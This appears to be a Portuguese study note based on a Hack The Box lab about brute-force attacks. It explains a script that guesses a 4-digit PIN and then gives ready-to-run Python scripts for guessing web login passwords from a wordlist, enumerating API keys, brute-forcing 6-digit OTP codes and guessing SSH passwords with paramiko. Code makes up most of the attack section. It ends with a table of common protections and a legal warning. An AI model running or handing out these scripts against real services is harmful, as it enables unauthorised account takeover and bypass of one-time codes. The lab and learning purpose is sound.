

# Brute Force Attack

## Fórmula de Combinações Possíveis

A fórmula que determina o número total de combinações possíveis de uma senha é:

**Possible Combinations = Character Set Size^Password Length**



---

## Código do HTB

```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

---

## Como o Código Funciona

### **Passo a Passo:**

1. **Importa a biblioteca `requests`**
   - Permite fazer requisições HTTP (GET, POST, etc)

2. **Define o alvo**
   ```python
   ip = "127.0.0.1"   # IP do servidor alvo
   port = 1234         # Porta onde o serviço está rodando
   ```

3. **Loop de força bruta**
   ```python
   for pin in range(10000):
   ```
   - Testa **todas** as 10.000 combinações possíveis (0000 até 9999)

4. **Formatação do PIN**
   ```python
   formatted_pin = f"{pin:04d}"
   ```
   - `{pin:04d}` garante sempre 4 dígitos com zeros à esquerda
   - Exemplos: `7` → `"0007"`, `123` → `"0123"`, `9999` → `"9999"`

5. **Envia requisição HTTP GET**
   ```python
   response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")
   ```
   - URL exemplo: `http://127.0.0.1:1234/pin?pin=0007`

6. **Verifica se acertou**
   ```python
   if response.ok and 'flag' in response.json():
   ```
   - `response.ok` → True se HTTP status = 200 (sucesso)
   - `'flag' in response.json()` → Verifica se a resposta JSON contém a chave `flag`

7. **Imprime resultado e para**
   ```python
   print(f"Flag: {response.json()['flag']}")
   break  # Para o loop quando encontra o PIN correto
   ```

---

## O Código Serve Apenas para o HTB?

**NÃO!** O conceito é universal e pode ser adaptado para diversos cenários:

### **1. Brute Force em Formulário de Login**
```python
import requests

url = "https://site.com/login"
passwords = open('wordlist.txt').readlines()

for pwd in passwords:
    pwd = pwd.strip()
    response = requests.post(url, data={
        'username': 'admin',
        'password': pwd
    })
    
    if "Dashboard" in response.text:  # Login bem-sucedido
        print(f"Senha encontrada: {pwd}")
        break
```

### **2. Brute Force de API Key**
```python
import string
import itertools

chars = string.ascii_uppercase + string.digits  # A-Z e 0-9

# Testa todas as combinações de 6 caracteres
for attempt in itertools.product(chars, repeat=6):
    api_key = ''.join(attempt)
    response = requests.get(f"https://api.com/data?key={api_key}")
    
    if response.status_code == 200:
        print(f"API Key válida: {api_key}")
        break
```

### **3. Brute Force de Token/OTP**
```python
import requests

url = "https://site.com/verify-otp"

# Testa códigos de 6 dígitos (000000 a 999999)
for otp in range(1000000):
    code = f"{otp:06d}"
    response = requests.post(url, data={'otp': code})
    
    if "verified" in response.text.lower():
        print(f"Código correto: {code}")
        break
```

### **4. Brute Force SSH (usando outra biblioteca)**
```python
import paramiko

host = "192.168.1.100"
user = "admin"
passwords = ['123456', 'password', 'admin', 'root']

for pwd in passwords:
    try:
        ssh = paramiko.SSHClient()
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        ssh.connect(host, username=user, password=pwd, timeout=3)
        print(f"Senha encontrada: {pwd}")
        break
    except:
        continue
```

---

## Diferenças Entre HTB e Cenários Reais

| Aspecto | HTB (Lab) | Mundo Real |
|---------|-----------|------------|
| **Proteções** | Nenhuma | Rate limiting, CAPTCHA, lockout |
| **Combinações** | 10.000 PINs | Trilhões de senhas possíveis |
| **Tempo** | Segundos | Dias/anos |
| **Resposta** | Imediata | Delays, timeouts |
| **Legalidade** | Autorizado | **CRIME** sem permissão |

---

## Proteções Comuns Contra Brute Force

Em sistemas reais, você encontrará:

1. **Rate Limiting** - Limita tentativas por minuto/hora
2. **Account Lockout** - Bloqueia conta após X tentativas
3. **CAPTCHA** - Requer validação humana
4. **IP Blocking** - Bloqueia IP após múltiplas falhas
5. **2FA/MFA** - Código adicional mesmo com senha correta
6. **Delay Progressivo** - Aumenta tempo entre tentativas

---

## ⚠️ Aviso Legal

Este código é para **fins educacionais** em ambientes controlados (HTB, labs pessoais).

**Uso não autorizado é CRIME:**
- 🇧🇷 Lei 12.737/2012 (Lei Carolina Dieckmann)
- 🌎 Computer Fraud and Abuse Act (EUA)
- 🇪🇺 GDPR e leis de cibercrime da UE

**Use apenas em:**
- ✅ Plataformas de aprendizado (HTB, TryHackMe)
- ✅ Sistemas próprios ou com autorização escrita
- ✅ Pentests contratados legalmente